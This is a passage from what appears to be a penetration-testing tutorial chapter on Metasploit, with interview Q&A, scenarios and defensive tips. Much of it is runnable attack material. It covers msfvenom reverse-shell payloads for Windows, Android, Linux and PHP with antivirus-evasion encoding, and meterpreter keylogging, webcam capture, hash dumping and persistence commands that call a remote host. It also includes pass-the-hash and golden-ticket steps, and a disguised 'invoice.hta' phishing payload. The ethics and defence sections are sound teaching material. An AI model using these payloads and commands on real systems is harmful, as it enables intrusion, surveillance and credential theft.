║ cd <path>                   Change directory                              ║
║ cat <file>                  Read file                                     ║
║ download <file>             Download file                                 ║
║ upload <file>               Upload file                                   ║
║ shell                       Drop to system shell                          ║
║ execute -f cmd.exe -i -H    Execute command hidden                        ║
║ migrate <pid>               Migrate to process                            ║
║ getsystem                   Try to get SYSTEM                             ║
║ getprivs                    Get privileges                               ║
║ hashdump                    Dump password hashes                          ║
║ screenshot                  Take screenshot                              ║
║ keyscan_start               Start keylogger                              ║
║ keyscan_dump                Dump keystrokes                              ║
║ keyscan_stop                Stop keylogger                               ║
║ webcam_list                 List webcams                                 ║
║ webcam_snap                 Take photo                                   ║
║ background                  Background session                           ║
║ exit                        Close session                                ║
╚══════════════════════════════════════════════════════════════════════════╝
```

---

## 🏆 BONUS CONTENT - Advanced Metasploit Techniques

### Advanced Technique 1: Railgun for Windows API Calls

```bash
# In meterpreter session on Windows
meterpreter > irb

# Use Railgun to call Windows API
client.railgun.kernel32.MessageBoxA(0, "Pwned!", "Alert", 0)
```

### Advanced Technique 2: Pass-the-Hash Attack

```bash
# Use captured hash directly without cracking
msf6 > use exploit/windows/smb/psexec
msf6 exploit(psexec) > set RHOSTS 192.168.1.100
msf6 exploit(psexec) > set SMBUser Administrator
msf6 exploit(psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:32ed87bdb5
msf6 exploit(psexec) > exploit
```

### Advanced Technique 3: Golden Ticket Attack

```bash
# After compromising domain controller
meterpreter > load kiwi
meterpreter > golden_ticket_create -d domain.local -k <krbtgt_hash> -s <SID> -u Administrator -t ticket.kirbi
```

### Advanced Technique 4: Session Persistence

```bash
# Create persistent backdoor
meterpreter > run persistence -X -i 30 -p 4444 -r 192.168.1.50

# X = Start at boot
# i = Interval (seconds)
# p = Port
# r = Remote host
```

### Advanced Technique 5: Data Exfiltration via DNS

```bash
# Setup DNS exfiltration
msf6 > use auxiliary/server/dns_exfil
msf6 auxiliary(dns_exfil) > set DOMAIN target.com
msf6 auxiliary(dns_exfil) > run
```

### Advanced Technique 6: Metasploit with Proxychains

```bash
# Configure proxychains
echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf

# Run Metasploit through proxy
proxychains msfconsole
```

---

## 📝 CHAPTER SUMMARY - Key Takeaways

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    CHAPTER 35 ESSENTIAL TAKEAWAYS                        │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  1. Metasploit Framework = Complete Penetration Testing Platform         │
│     • Exploits, payloads, auxiliary, post modules                       │
│     • Database integration for management                               │
│     • msfconsole = primary interface                                    │
│                                                                          │
│  2. Installation in Termux                                               │
│     • Requires proot-distro with Ubuntu                                 │
│     • Ruby and PostgreSQL dependencies                                  │
│     • Use MSF installer for easiest setup                               │
│                                                                          │
│  3. Exploitation Workflow                                                │
│     • Search → Use → Set options → Exploit → Post-exploit               │
│     • Always verify with check command when available                   │
│     • Use appropriate payload for target system                         │
│                                                                          │
│  4. Payload Generation (msfvenom)                                        │
│     • Standalone executables for various platforms                      │
│     • Encoding for basic AV evasion                                     │
│     • Handler needed for reverse shells                                 │
│                                                                          │
│  5. Meterpreter = Advanced Post-Exploitation                            │
│     • File system access                                                │
│     • Privilege escalation                                              │
│     • Credential harvesting                                             │
│     • Persistence mechanisms                                            │
│                                                                          │
│  6. Legal & Ethical                                                      │
│     • Only use on authorized systems                                    │
│     • Document all actions                                              │
│     • Report findings responsibly                                       │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

---

## 🛡️ DEFENSIVE SECURITY - Protecting Against Metasploit Attacks

### Detection & Prevention Strategies

#### 1. Network-Level Defenses

```bash
# IDS/IPS Signatures for common Metasploit payloads
# Snort rule example
alert tcp any any -> any any (msg:"Metasploit Meterpreter"; \
    content:"meterpreter"; nocase; sid:1000001;)

# Firewall rules to block reverse shells
iptables -A OUTPUT -p tcp --dport 4444 -j DROP
iptables -A OUTPUT -p tcp --dport 5555 -j DROP
```

#### 2. Host-Based Protections

```
# Windows Defender Attack Surface Reduction Rules
- Block executable files from unknown sources
- Block process creations from Office macros
- Block credential stealing from Windows local security authority
- Block JavaScript or VBScript from launching downloaded content
```

#### 3. Application Whitelisting

```
# Only allow signed applications
# Windows AppLocker policies
# Linux SELinux/AppArmor profiles
```

#### 4. Patch Management

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    PATCH MANAGEMENT BEST PRACTICES                       │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  • Apply security patches within 72 hours of release                    │
│  • Subscribe to vendor security bulletins                               │
│  • Use WSUS/SCCM for Windows patching                                   │
│  • Regular vulnerability scanning                                       │
│  • Test patches before deployment                                       │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

#### 5. Network Segmentation

```
# Isolate critical systems
DMZ → Web Servers → Application Layer → Database Layer → Internal Network

# Limit lateral movement
- Separate VLANs for different departments
- Firewall rules between segments
- Zero-trust architecture
```

#### 6. Monitoring & Logging

```bash
# Enable comprehensive logging
# Windows Event Logging
# Linux rsyslog
# SIEM integration

# Monitor for suspicious activity
- New process creation
- Network connections to unusual ports
- Privilege escalation attempts
- Persistence mechanisms
```

---

## 📋 METHODOLOGY - Metasploit Attack Workflow

```
┌─────────────────────────────────────────────────────────────────────────┐
│                  METASPLOIT EXPLOITATION WORKFLOW                         │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  PHASE 1: RECONNAISSANCE                                                 │
│  ─────────────────────────                                               │
│  • Use auxiliary/scanner modules                                        │
│  • Port scanning: auxiliary/scanner/portscan/tcp                       │
│  • Service enumeration: auxiliary/scanner/*                            │
│  • Import Nmap/other scan results                                       │
│                                                                          │
│  PHASE 2: VULNERABILITY ANALYSIS                                         │
│  ─────────────────────────────                                           │
│  • Match services to known exploits                                     │
│  • Use check command when available                                     │
│  • Research CVEs and exploit reliability                                │
│  • Identify potential payloads                                          │
│                                                                          │
│  PHASE 3: EXPLOIT SELECTION                                              │
│  ─────────────────────────                                               │
│  • search <service/os/cve>                                              │
│  • Check exploit rank (Excellent > Good > Average > Low)                │
│  • Review exploit information                                           │
│  • Select appropriate target                                            │
│                                                                          │
│  PHASE 4: PAYLOAD SELECTION                                              │
│  ─────────────────────────                                               │
│  • Consider target OS and architecture                                  │
│  • Reverse vs Bind shell decision                                       │
│  • Staged vs Stageless payload                                          │
│  • Meterpreter for advanced capabilities                                │
│                                                                          │
│  PHASE 5: EXPLOIT EXECUTION                                              │
│  ─────────────────────────                                               │
│  • Configure RHOSTS, LHOST, payload                                     │
│  • Run check if available                                               │
│  • Execute exploit                                                       │
│  • Troubleshoot failures                                                │
│                                                                          │
│  PHASE 6: POST-EXPLOITATION                                              │
│  ──────────────────────────                                              │
│  • Information gathering (sysinfo, getuid)                              │
│  • Privilege escalation (getsystem)                                     │
│  • Persistence mechanisms                                               │
│  • Lateral movement                                                      │
│  • Data exfiltration                                                     │
│                                                                          │
│  PHASE 7: CLEANUP & REPORTING                                            │
│  ───────────────────────────                                             │
│  • Remove persistence mechanisms                                        │
│  • Clear event logs (if authorized)                                     │
│  • Document findings                                                     │
│  • Create detailed report                                                │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

---

## ⚠️ LEGAL & ETHICS - Critical Guidelines

### Authorization Requirements

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    METASPLOIT LEGAL REQUIREMENTS                         │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  ✅ REQUIRED BEFORE ANY TESTING                                          │
│     • Written authorization document                                    │
│     • Scope definition (IPs, systems, methods)                          │
│     • Testing window (dates/times)                                      │
│     • Emergency contacts                                                │
│     • Rules of engagement                                               │
│                                                                          │
│  ❌ ILLEGAL ACTIVITIES                                                   │
│     • Exploiting systems without authorization                          │
│     • Installing backdoors on production systems                        │
│     • Stealing personal data                                            │
│     • Causing denial of service                                         │
│     • Exfiltrating data without approval                                │
│                                                                          │
│  📋 DOCUMENTATION REQUIREMENTS                                           │
│     • Screenshot all sessions                                           │
│     • Log all commands executed                                         │
│     • Timestamp all activities                                          │
│     • Preserve evidence chain                                           │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

### Responsible Disclosure Process

```
1. Discover vulnerability
2. Document thoroughly
3. Report to vendor privately
4. Allow reasonable time for fix (30-90 days)
5. Coordinate disclosure timing
6. Never publish exploit before fix available
```

---

## 🔗 RELATED CHAPTERS - Cross-References

| Chapter | Topic | Relation |
|---------|-------|----------|
| Ch-25 | Nmap Network Scanning | Discover targets for Metasploit |
| Ch-34 | SQLMap Basics | Database exploitation integration |
| Ch-36 | PhoneSploit & ADB | Mobile exploitation with msfvenom |
| Ch-37 | Social Engineering Toolkit | Payload delivery methods |
| Ch-38 | WiFi Security Tools | Network-based payload delivery |
| Ch-41 | Web Application Pen Testing | Web exploit modules |
| Ch-43 | Penetration Testing Report | Document Metasploit findings |

### Skill Progression Path

```
Metasploit Basics (Ch-35)
        ↓
Advanced Exploitation
        ↓
Post-Exploitation Mastery
        ↓
Red Team Operations
        ↓
APT-Level Techniques
```

---

**🔥 CHAPTER 35 POWER UPGRADE COMPLETE! 🔥**

*Master Metasploit. Exploit Responsibly. Secure Systems.*


---

## 🎯 INTERVIEW QUESTIONS - Job Preparation

### Q1: What is Metasploit and how does it work?
<details>
<summary>📋 Click for Answer</summary>

**Metasploit Framework** is an open-source penetration testing platform for developing and executing exploit code.

**Architecture:**
1. **msfconsole** - Primary CLI interface
2. **Modules** - Exploits, payloads, auxiliary, post, encoders, nops
3. **Database** - PostgreSQL for data storage
4. **Msfvenom** - Payload generator

**How it works:**
1. Identify vulnerable service
2. Select appropriate exploit module
3. Configure exploit options (RHOSTS, payload)
4. Execute exploit
5. Get shell/access

```bash
# Basic workflow
msfconsole
search apache
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS target.com
set payload cmd/unix/reverse_bash
exploit
```
</details>

### Q2: What are the different types of Metasploit modules?
<details>
<summary>📋 Click for Answer</summary>

**Module Types:**

| Type | Purpose | Example |
|------|---------|---------|
| **Exploits** | Execute attack code | exploit/windows/smb/ms17_010_eternalblue |
| **Payloads** | Code to execute | windows/meterpreter/reverse_tcp |
| **Auxiliary** | Scanning, fuzzing | auxiliary/scanner/portscan/tcp |
| **Post** | Post-exploitation | post/windows/gather/hashdump |
| **Encoders** | Obfuscate payloads | x86/shikata_ga_nai |
| **NOPS** | No-operation sleds | nop/x86/single_byte |

**Usage Examples:**
```bash
# Exploit module
use exploit/windows/smb/ms17_010_eternalblue

# Auxiliary scanner
use auxiliary/scanner/ssh/ssh_version

# Post-exploitation
use post/windows/gather/enum_applications
```
</details>

### Q3: What is the difference between bind and reverse shells?
<details>
<summary>📋 Click for Answer</summary>

**Bind Shell:**
- Target listens on a port
- Attacker connects to target
- Works when attacker can reach target directly
- Often blocked by NAT/firewalls

```bash
# Bind payload
set payload windows/meterpreter/bind_tcp
set LPORT 4444
```

**Reverse Shell:**
- Target connects back to attacker
- Attacker listens on a port
- Bypasses NAT/firewalls (outbound allowed)
- Most common in penetration testing

```bash
# Reverse payload
set payload windows/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 4444
```

**When to use:**
- **Bind:** Target has public IP, no NAT
- **Reverse:** Target behind NAT, firewall allows outbound
</details>

### Q4: What is Meterpreter and why is it powerful?
<details>
<summary>📋 Click for Answer</summary>

**Meterpreter** is an advanced payload that provides extensive post-exploitation features.

**Features:**
- Runs entirely in memory (no disk writes)
- Encrypted communication
- Extensible with scripts
- Stealthy and difficult to detect

**Key Commands:**
```bash
sysinfo          # System information
getuid           # Current user
pwd              # Current directory
ls               # List files
download file    # Download file
upload file      # Upload file
ps               # Process list
migrate PID      # Migrate to process
hashdump         # Dump password hashes
screenshot       # Take screenshot
keyscan_start    # Start keylogger
getsystem        # Escalate to SYSTEM
```
</details>

### Q5: How do you handle sessions in Metasploit?
<details>
<summary>📋 Click for Answer</summary>

**Session Management Commands:**

```bash
# List sessions
sessions -l

# Interact with session
sessions -i 1

# Background session
background   # or Ctrl+Z

# Kill session
sessions -k 1

# Run command on session
sessions -c "sysinfo" -i 1

# Upgrade shell to meterpreter
sessions -u 1
```

**Session Types:**
- **shell:** Basic command shell
- **meterpreter:** Advanced payload
- **VNC:** Remote desktop

**Best Practices:**
- Name sessions for tracking
- Use `sessions -v` for verbose info
- Background before running more exploits
</details>

### Q6: What is msfvenom and how do you use it?
<details>
<summary>📋 Click for Answer</summary>

**Msfvenom** combines payload generation and encoding into one tool.

**Basic Syntax:**
```bash
msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <format> -o <output>
```

**Common Payloads:**
```bash
# Windows reverse shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o shell.exe

# Android APK
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o app.apk

# Linux ELF
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o shell.elf

# PHP
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o shell.php
```

**Encoding for AV evasion:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o encoded.exe
```
</details>

### Q7: How do you set up a handler to catch reverse shells?
<details>
<summary>📋 Click for Answer</summary>

**Handler Setup:**

```bash
# Start msfconsole
msfconsole

# Use handler exploit
use exploit/multi/handler

# Set payload (match msfvenom payload)
set payload windows/meterpreter/reverse_tcp

# Configure listener
set LHOST 0.0.0.0    # Listen on all interfaces
set LPORT 4444

# Start handler
exploit -j   # -j runs in background

# When connection comes
sessions -l  # List sessions
sessions -i 1  # Interact
```

**Auto Handler Script:**
```bash
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST 0.0.0.0; set LPORT 4444; exploit -j"
```
</details>

### Q8: What are staged vs stageless payloads?
<details>
<summary>📋 Click for Answer</summary>

**Staged Payloads:**
- Small initial stager
- Downloads full payload after connection
- Smaller file size
- Can be blocked by security controls

```bash
# Staged (default)
msfvenom -p windows/meterpreter/reverse_tcp ...
```

**Stageless Payloads:**
- Complete payload embedded
- No secondary download needed
- Larger file size
- Works when staging is blocked

```bash
# Stageless
msfvenom -p windows/meterpreter_reverse_tcp ...
```

**Comparison:**
| Feature | Staged | Stageless |
|---------|--------|-----------|
| Size | Small | Large |
| Detection | Harder | Easier |
| Network | Multiple requests | Single request |
| Reliability | May fail | More reliable |
</details>

### Q9: How do you perform privilege escalation in Metasploit?
<details>
<summary>📋 Click for Answer</summary>

**Privilege Escalation Methods:**

**1. getsystem (Windows):**
```bash
meterpreter > getsystem
meterpreter > getuid  # Verify
```

**2. Local Exploit Suggester:**
```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

**3. Named Pipe Impersonation:**
```bash
use exploit/windows/local/named_pipe
set SESSION 1
run
```

**4. Bypass UAC:**
```bash
use exploit/windows/local/bypassuac_fodhelper
set SESSION 1
run
```

**5. Linux Privilege Escalation:**
```bash
use exploit/linux/local/cron_persistence
use post/linux/gather/enum_system
```
</details>

### Q10: What is the database feature in Metasploit?
<details>
<summary>📋 Click for Answer</summary>

**Database Setup:**
```bash
# Start PostgreSQL
service postgresql start

# Initialize database
msfdb init

# Connect in msfconsole
db_connect
```

**Database Features:**
```bash
# Import Nmap scan
db_import scan.xml

# Show hosts
hosts

# Show services
services

# Show credentials
creds

# Workspaces
workspace -a project1
workspace project1
```

**Benefits:**
- Track multiple targets
- Store scan results
- Manage credentials
- Generate reports
</details>

---

## 🔥 REAL-WORLD SCENARIOS

### Scenario 1: Internal Network Penetration Test
```
╔═══════════════════════════════════════════════════════════════════════════╗
║               INTERNAL NETWORK PENETRATION TEST                             ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                            ║
║  OBJECTIVE: Assess internal network security after initial access          ║
║                                                                            ║
║  INITIAL ACCESS: Obtained through phishing (user credentials)              ║
║                                                                            ║
║  METASPLOIT WORKFLOW:                                                       ║
║                                                                             ║
║  # Step 1: Setup                                                            ║
║  msfconsole                                                                 ║
║  workspace -a internal_test                                                ║
║  db_connect                                                                 ║
║                                                                             ║
║  # Step 2: Reconnaissance                                                  ║
║  use auxiliary/scanner/portscan/tcp                                        ║
║  set RHOSTS 192.168.1.0/24                                                 ║
║  set PORTS 21,22,80,443,445,3389                                          ║
║  run                                                                        ║
║                                                                             ║
║  # Step 3: Service enumeration                                             ║
║  use auxiliary/scanner/smb/smb_version                                     ║
║  set RHOSTS 192.168.1.0/24                                                 ║
║  run                                                                        ║
║                                                                             ║
║  # Step 4: Exploitation                                                    ║
║  use exploit/windows/smb/ms17_010_eternalblue                              ║
║  set RHOSTS 192.168.1.50                                                   ║
║  set payload windows/meterpreter/reverse_tcp                               ║
║  exploit                                                                    ║
║                                                                            ║
║  OUTCOME:                                                                   ║
║  • Found 47 hosts, 12 with MS17-010 vulnerable                            ║
║  • Obtained SYSTEM access on 3 servers                                     ║
║  • Dumped domain credentials                                               ║
║                                                                            ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

### Scenario 2: Web Application Exploitation
```
╔═══════════════════════════════════════════════════════════════════════════╗
║                   WEB APPLICATION EXPLOITATION                              ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                            ║
║  TARGET: Company's internal web application                                ║
║                                                                            ║
║  DISCOVERY: Apache Tomcat with manager access                              ║
║                                                                            ║
║  METASPLOIT APPROACH:                                                       ║
║                                                                             ║
║  # Find Tomcat exploit                                                     ║
║  search tomcat manager                                                     ║
║                                                                             ║
║  # Use Tomcat manager upload                                               ║
║  use exploit/multi/http/tomcat_mgr_upload                                  ║
║  set RHOSTS webapp.internal.com                                           ║
║  set HttpUsername admin                                                   ║
║  set HttpPassword admin123                                                ║
║  set payload java/meterpreter/reverse_tcp                                  ║
║  set LHOST attacker_ip                                                    ║
║  exploit                                                                   ║
║                                                                            ║
║  POST-EXPLOITATION:                                                         ║
║  # Enumerate system                                                        ║
║  run post/linux/gather/enum_system                                        ║
║                                                                             ║
║  # Check for sensitive files                                              ║
║  shell                                                                     ║
║  find /var/www -name "*.conf" -exec cat {} \;                             ║
║                                                                             ║
║  # Database credentials                                                    ║
║  cat /var/www/config/database.yml                                         ║
║                                                                            ║
║  FINDINGS:                                                                  ║
║  • Exposed database credentials                                           ║
║  • Access to customer PII                                                 ║
║  • Potential pivot point to database server                               ║
║                                                                            ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

### Scenario 3: Android Mobile Device Assessment
```
╔═══════════════════════════════════════════════════════════════════════════╗
║                 ANDROID MOBILE DEVICE ASSESSMENT                            ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                            ║
║  OBJECTIVE: Security assessment of corporate mobile devices                ║
║                                                                            ║
║  PAYLOAD CREATION:                                                          ║
║  msfvenom -p android/meterpreter/reverse_tcp \                              ║
║           LHOST=192.168.1.100 \                                            ║
║           LPORT=4444 \                                                     ║
║           -o security_test.apk                                            ║
║                                                                            ║
║  HANDLER SETUP:                                                             ║
║  msfconsole                                                                ║
║  use exploit/multi/handler                                                  ║
║  set payload android/meterpreter/reverse_tcp                               ║
║  set LHOST 192.168.1.100                                                   ║
║  set LPORT 4444                                                            ║
║  exploit                                                                   ║
║                                                                            ║
║  POST-EXPLOITATION COMMANDS:                                                ║
║  # Device info                                                             ║
║  sysinfo                                                                   ║
║                                                                             ║
║  # Access sensitive data                                                   ║
║  dump_contacts                                                             ║
║  dump_sms                                                                  ║
║  dump_calllog                                                              ║
║                                                                             ║
║  # Location                                                                ║
║  geolocate                                                                 ║
║                                                                             ║
║  # Camera access                                                           ║
║  webcam_list                                                               ║
║  webcam_snap                                                               ║
║                                                                            ║
║  SECURITY FINDINGS:                                                         ║
║  • Outdated Android version vulnerable to exploits                         ║
║  • Sensitive data accessible                                              ║
║  • No MDM restrictions                                                    ║
║                                                                            ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

### Scenario 4: Post-Exploitation Data Gathering
```
╔═══════════════════════════════════════════════════════════════════════════╗
║                  POST-EXPLOITATION DATA GATHERING                           ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                            ║
║  SITUATION: Obtained Meterpreter session on Windows server                 ║
║                                                                            ║
║  INFORMATION GATHERING:                                                     ║
║  # System information                                                      ║
║  sysinfo                                                                   ║
║  getuid                                                                    ║
║  run post/windows/gather/enum_system                                      ║
║                                                                             ║
║  # Network information                                                     ║
║  run post/windows/gather/enum_network                                     ║
║  ipconfig                                                                  ║
║  route                                                                     ║
║  netstat                                                                   ║
║                                                                             ║
║  # User enumeration                                                        ║
║  run post/windows/gather/enum_domain_users                                ║
║  run post/windows/gather/credentials/gpp                                  ║
║                                                                             ║
║  # Password hashes                                                         ║
║  run post/windows/gather/smart_hashdump                                   ║
║                                                                            ║
║  # Installed software                                                      ║
║  run post/windows/gather/enum_applications                                ║
║                                                                             ║
║  # Persistence                                                             ║
║  run persistence -U -i 10 -p 4445 -r attacker_ip                          ║
║                                                                            ║
║  LOOT COLLECTED:                                                            ║
║  • 15 user password hashes                                                 ║
║  • Domain admin credentials                                               ║
║  • VPN configuration files                                                ║
║  • Network diagram                                                        ║
║                                                                            ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

### Scenario 5: Client-Side Attack Simulation
```
╔═══════════════════════════════════════════════════════════════════════════╗
║                  CLIENT-SIDE ATTACK SIMULATION                              ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                            ║
║  OBJECTIVE: Test employee awareness through simulated attack               ║
║                                                                            ║
║  PAYLOAD CREATION:                                                          ║
║  # Create HTA payload (less suspicious than EXE)                           ║
║  msfvenom -p windows/meterpreter/reverse_tcp \                              ║
║           LHOST=192.168.1.100 \                                            ║
║           LPORT=4444 \                                                     ║
║           -f hta-psh \                                                     ║
║           -o invoice.hta                                                  ║
║                                                                            ║
║  HANDLER:                                                                   ║
║  use exploit/multi/handler                                                  ║
║  set payload windows/meterpreter/reverse_tcp                               ║
║  set LHOST 192.168.1.100                                                   ║
║  set ExitOnSession false                                                   ║
║  exploit -j                                                                ║
║                                                                            ║
║  DELIVERY METHOD:                                                           ║
║  • Phishing email with attachment                                          ║
║  • Malicious link                                                          ║
║  • USB drop test                                                           ║
║                                                                            ║
║  MONITORING:                                                                ║
║  sessions -l                                                               ║
║  # Track which users click                                                 ║
║  # Log timestamps                                                          ║
║  # Document user behavior                                                  ║
║                                                                            ║
║  METRICS:                                                                   ║
║  • 23% opened attachment                                                   ║
║  • 8% executed payload                                                     ║
║  • Average time to execute: 47 seconds                                     ║
║                                                                            ║
║  RECOMMENDATIONS:                                                           ║
║  • Security awareness training                                             ║
║  • Email filtering improvements                                            ║
║  • Endpoint protection enhancement                                         ║
║                                                                            ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

---

## ⚠️ SECURITY BEST PRACTICES

### ✅ DO's - Ethical Metasploit Usage

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                         SECURITY DO's                                        │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                              │
│  ✅ ALWAYS get written authorization before using Metasploit                │
│  ✅ DOCUMENT all actions with timestamps                                    │
│  ✅ USE non-destructive modules first                                       │
│  ✅ TEST in isolated environments when learning                            │
│  ✅ VERIFY exploit applicability before running                             │
│  ✅ MONITOR system impact during testing                                    │
│  ✅ CLEAN UP persistence mechanisms after testing                          │
│  ✅ REPORT findings with remediation guidance                               │
│  ✅ OBTAIN explicit permission for post-exploitation                        │
│  ✅ USE workspaces for engagement organization                              │
│  ✅ BACKUP important data before testing                                   │
│  ✅ FOLLOW rules of engagement strictly                                    │
│                                                                              │
│  BEST PRACTICE: Always test exploits in lab before production              │
│                                                                              │
└─────────────────────────────────────────────────────────────────────────────┘
```

### ❌ DON'Ts - Avoid These Mistakes

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                         SECURITY DON'Ts                                      │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                              │
│  ❌ NEVER use Metasploit on systems without authorization                 │
│  ❌ NEVER run destructive payloads on production                          │
│  ❌ NEVER leave persistence mechanisms after engagement                   │
│  ❌ NEVER share generated payloads publicly                               │
│  ❌ NEVER use Metasploit for personal gain or revenge                     │
│  ❌ NEVER forget to document all activities                               │
│  ❌ NEVER skip scope verification                                         │
│  ❌ NEVER test outside engagement window                                  │
│  ❌ NEVER dump data beyond what's necessary                               │
│  ❌ NEVER ignore evidence of compromise                                   │
│  ❌ NEVER use unstable exploits on critical systems                       │
│  ❌ NEVER forget to report critical findings immediately                  │
│                                                                              │
│  WARNING: Unauthorized Metasploit use is a serious crime                   │
│           with severe legal consequences                                   │
│                                                                              │
└─────────────────────────────────────────────────────────────────────────────┘
```

### 🔒 Metasploit Safety Checklist

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                    METASPLOIT SAFETY CHECKLIST                               │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                              │
│  Pre-Engagement:                                                             │
│  ☐ Written authorization obtained                                           │
│  ☐ Scope clearly defined                                                    │
│  ☐ Rules of engagement signed                                               │
│  ☐ Test window confirmed                                                    │
│  ☐ Database initialized                                                     │
│  ☐ Workspace created                                                        │
│                                                                              │
│  During Testing:                                                             │
│  ☐ Verify target is in scope                                                │
│  ☐ Use appropriate exploit modules                                          │
│  ☐ Monitor system impact                                                    │
│  ☐ Document all sessions                                                    │
│  ☐ Limit post-exploitation actions                                          │
│  ☐ Preserve evidence                                                        │
│                                                                              │
│  Post-Engagement:                                                            │
│  ☐ Remove all persistence mechanisms                                        │
│  ☐ Kill all sessions                                                        │
│  ☐ Document all findings                                                    │
│  ☐ Generate comprehensive report                                            │
│  ☐ Provide remediation guidance                                             │
│  ☐ Secure/delete collected data                                             │
│                                                                              │
│  Emergency Procedures:                                                       │
│  ☐ Stop all activities if system crashes                                    │
│  ☐ Report any data breaches immediately                                     │
│  ☐ Document incident details                                                │
│  ☐ Preserve forensic evidence                                               │
│                                                                              │
└─────────────────────────────────────────────────────────────────────────────┘
```

---

## 📊 ARCHITECTURE DIAGRAMS

### Diagram 1: Metasploit Framework Architecture

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                    METASPLOIT FRAMEWORK ARCHITECTURE                         │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                              │
│   ┌─────────────────────────────────────────────────────────────────────┐   │
│   │                          USER INTERFACES                            │   │
│   │  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐              │   │
│   │  │ msfconsole   │  │   msfvenom   │  │  msfrpc/msfrpcd │            │   │
│   │  │  (Primary)   │  │ (Payload Gen)│  │    (RPC API)    │            │   │
│   │  └──────────────┘  └──────────────┘  └──────────────┘              │   │
│   └─────────────────────────────────────────────────────────────────────┘   │
│                                      │                                       │
│                                      ▼                                       │
│   ┌─────────────────────────────────────────────────────────────────────┐   │
│   │                           MODULES                                   │   │
│   │  ┌────────┐ ┌────────┐ ┌────────┐ ┌────────┐ ┌────────┐          │   │
│   │  │Exploits│ │Payloads│ │Auxiliary│ │  Post  │ │Encoders│          │   │
│   │  │        │ │        │ │        │ │        │ │        │          │   │
│   │  │ 2000+  │ │ 1000+  │ │ 1500+  │ │  500+  │ │  50+   │          │   │
│   │  └────────┘ └────────┘ └────────┘ └────────┘ └────────┘          │   │
│   └─────────────────────────────────────────────────────────────────────┘   │
│                                      │                                       │
│                                      ▼                                       │
│   ┌─────────────────────────────────────────────────────────────────────┐   │
│   │                          DATA LAYER                                 │   │
│   │  ┌──────────────────────────────────────────────────────────────┐  │   │
│   │  │                    PostgreSQL Database                        │  │   │
│   │  │                                                               │  │   │
│   │  │  • Workspaces  • Hosts  • Services  • Credentials  • Loot    │  │   │
│   │  │  • Sessions   • Events • Tasks     • Notes        • Vulns    │  │   │
│   │  └──────────────────────────────────────────────────────────────┘  │   │
│   └─────────────────────────────────────────────────────────────────────┘   │
│                                                                              │
└─────────────────────────────────────────────────────────────────────────────┘
```

### Diagram 2: Exploitation Workflow

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                      METASPLOIT EXPLOITATION WORKFLOW                        │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                              │
│   ┌─────────────────────────────────────────────────────────────────────┐   │
│   │                    PHASE 1: RECONNAISSANCE                          │   │
│   │  ┌──────────────────────────────────────────────────────────────┐  │   │
│   │  │  nmap -sV -sC target → db_import → hosts/services/creds     │  │   │
│   │  └──────────────────────────────────────────────────────────────┘  │   │
│   └─────────────────────────────────────────────────────────────────────┘   │
│                                      │                                       │
│                                      ▼                                       │
│   ┌─────────────────────────────────────────────────────────────────────┐   │
│   │                    PHASE 2: VULNERABILITY SEARCH                    │   │
│   │  ┌──────────────────────────────────────────────────────────────┐  │   │
│   │  │  search type:exploit platform:windows smb                   │  │   │
│   │  │  info exploit/windows/smb/ms17_010_eternalblue               │  │   │
│   │  └──────────────────────────────────────────────────────────────┘  │   │
│   └─────────────────────────────────────────────────────────────────────┘   │
│                                      │                                       │
│                                      ▼                                       │
│   ┌─────────────────────────────────────────────────────────────────────┐   │
│   │                    PHASE 3: EXPLOIT CONFIGURATION                   │   │
│   │  ┌──────────────────────────────────────────────────────────────┐  │   │
│   │  │  use exploit/windows/smb/ms17_010_eternalblue                │  │   │
│   │  │  set RHOSTS 192.168.1.100                                    │  │   │
│   │  │  set payload windows/meterpreter/reverse_tcp                 │  │   │
│   │  │  set LHOST 192.168.1.50                                      │  │   │
│   │  └──────────────────────────────────────────────────────────────┘  │   │
│   └─────────────────────────────────────────────────────────────────────┘   │
│                                      │                                       │
│                                      ▼                                       │
